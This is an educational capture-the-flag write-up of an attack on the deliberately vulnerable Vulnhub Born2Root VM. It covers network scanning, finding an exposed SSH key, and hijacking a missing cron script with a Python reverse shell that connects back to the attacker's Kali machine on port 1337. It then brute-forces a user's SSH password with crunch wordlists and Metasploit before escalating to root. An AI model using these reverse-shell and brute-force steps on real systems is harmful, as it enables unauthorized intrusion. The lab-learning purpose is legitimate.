 # **Born2Root: CTF challenge on Vulnhub**

## **Scenario**
This laboratory descibes an attack towards a VM called _Born2Root_ that contains 3 different users. The objective is to capture the flag after obtaining root priviledges on target machine.

**Threat model**: the adversary has access to the subnet where the target machine is located and has the ability to know the users.

## **Virtual Enviroments**
1. **Kali Linux 2023.3** -> attacker machine
2. **Born2Root Debian 32 bits** -> target VM that contains the flag

## **Tools**
1. **Nmap** -> Identify devices and open ports
2. **Dirb** ->  command-line web content scanner used for brute-forcing directories and files on web servers
3. **Netcat** -> tool used for starting a listener on a certain port
4. **Cupp** -> tool designed for social engineering-based password list generation
5. **Crunch** -> command-line tool used to generate custom wordlists

## **Execution Steps**

### Network Discovery

The attacker uses `ip a` to gain knowledge of his private ip (10.0.2.4 in this case) and uses this information to gain knowledge of the network with the command `nmap -sV 10.0.2.0/24 `.

"-sV" abilitates nmap to try and determine the services on the open ports.

![nmap_command_result](images/nmap_result.png)

Port 80 is open so the attacker types the ip address of the target machine in his browser tab, accessing the following web page:

![web_page_image](images/web_page.png)

No notable information can be found here, so the attacker uses the command `dirb http://10.0.2.5` to explore more directories in hopes of finding useful data.
The results from this operation are as follows:

```markdown
---- Scanning URL: http://10.0.2.5/ ----
==> DIRECTORY: http://10.0.2.5/files/                                                                   
==> DIRECTORY: http://10.0.2.5/icons/                                                                                                                     
+ http://10.0.2.5/index.html (CODE:200|SIZE:5651)                                                                                                    
==> DIRECTORY: http://10.0.2.5/manual/                                                                                                                    
+ http://10.0.2.5/robots.txt (CODE:200|SIZE:57)                                                                                                           
+ http://10.0.2.5/server-status (CODE:403|SIZE:296) 
```

After some exploration, with his browser, of the directories the attacker understands that the only interesting one is /icons.
He finds a file called **VDSoyuAXiO.txt**, that contains a private key!

### Spawning a shell as user Martin

Once copied to the sshKey.txt file it is ready to be used to spawn a shell using ssh.
The code used is the following:

1. `chmod 600 sshKey`: commmand  needed because ssh only accepts a key that can be read by the propetary

2. `ssh -i sshKey martin@10.0.2.5`: the _-i_ is used to specify a certain private key. This command doesn't work because of the following error: _sign_and_send_pubkey: no mutual signature supported_. This happens because the private key is RSA and in modern clients this cryptography is deactivated by default (weak keys).

3. `ssh -o PubkeyAcceptedKeyTypes=+ssh-rsa -o HostkeyAlgorithms=+ssh-rsa -i sshKey martin@10.0.2.5`: this is the command that abilitates the use of RSA keys and spawns a shell on the target machine as user martin.
   
![martin_ssh](images/martin_ssh.png)

Once inside we explore the file system starting from "/" and we encounter the file **Crontab** in "/etc/Crontab".
This is a file that specifies scheduled tasks on Unix/Linux Systems.

![crontab](images/crontab.png)

The attacker finds that a file to called **sekurity.py**, in the "/tmp/", is to be executed every 5 minutes. But the file is missing from the folder. So the attacker creates a program that spawns a reverse shell and saves it as sekurity.py in the "/tmp/" folder.

`nano sekurity.py`: command for creating the file from the shell

content of the file sekurity.py:

```python
  #!/usr/bin/python  ->  used to activate the python interpreter
  import socket,subprocess,os 
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) # -> creates an IPv4 socket
  s.connect(("10.0.2.4",1337)) # -> connects the socket to Kali machine on port 1337
  os.dup2(s.fileno(),0)
  os.dup2(s.fileno(),1)
  os.dup2(s.fileno(),2) # -> redirecting all stdin, stdout, stderr of the process to the socket
  p=subprocess.call(["/bin/sh","-i"])  # -> starts an interactive shell that communicates over the socket
```
Next step is setting up a **Netcat** listener on port 1337 and wait for the cronjob to execute our file.

`nc -lvp 1337`: "-l" is for listening, "-v" is verbose mode, "-p" 1337 specifies port number.

### Spawning a reverse shell as user Jimmy

Since the process spawned belongs to Jimmy, the shell will also belong to him. After some exploration the attacker couldn’t find anything that could help him root the machine.

The attacker decides to focus on the third and final user: Hadi

### Brute-forcing password of user Hadi

First attempt is to use **cupp** to create a dictionary using as input the username "hadi". This generates a file called Hadi.txt with 104 words but that doesn't contain the password for the account.

`cupp -i`: spawns an interactable version of cupp where one can input some parameters

Second attempt is to use **crunch** to generate a more specific dictionary. This was done for the sake of brevity, since using rockyou.txt was taking a lot of time.

`crunch 7 7 -t hadi%%% -o hadi.txt`: creates a dictionary containing all combinations of hadi followed by three numbers.

Both attempts were executed using metasploit in the following manner:
1. `Msfconsole -q` -> starting metasploit
2. `use auxiliary/scanner/ssh/ssh_login` -> selecting the ssh brute forcing login
3. `set rhosts 10.0.2.5` -> setting target ip address
4. `set username hadi` -> setting username fro the attack
5. `set pass_file hadi.txt` -> setting dictionary with passwords
6. `run` -> starting the attack


![ssh_hadi_success](images/ssh_login_success.png)

After the attack has succeded the attacker can look and link the created session with the following commands:
1. `Sessions` -> shows active sessions
2. `Sessions -i "id_session_number"`  -> attaches to the session selected

### Spawning a shell as user Hadi

Once the session is created, a shell is spawned as user hadi. The attacker can then upgrade the shell to a full interactive one, with the command:

`
python -c "import pty; pty.spawn('/bin/bash')"
`

After this step the attacker can gain root privileges with the command:

`
su - root
`

This requests the password of user hadi that the attacker knows. Now the attacker has root privileges and can use the command:

`
ls -al
`

This lists all the files, especially the file flag.txt.
Finally the attacker uses the command:

`
cat flag.txt
`

This shows on the screen the content of the file and concludes the challenge.

![alt text](images/flag_captured.png)


## **References**

### LLM Usage
* I declare that _ChatGPT_ was used for tecnical support.

### Bord2Root VW
 * [<u>https://www.vulnhub.com/entry/born2root-1,197/#download</u>](https://www.vulnhub.com/entry/born2root-1,197/#download)

### Hack the Boot2Root VM (guide for the CTF)
   * [<u>https://www.hackingarticles.in/hack-born2root-vm-ctf-challenge/</u>](https://www.vulnhub.com/entry/born2root-1,197/#download)


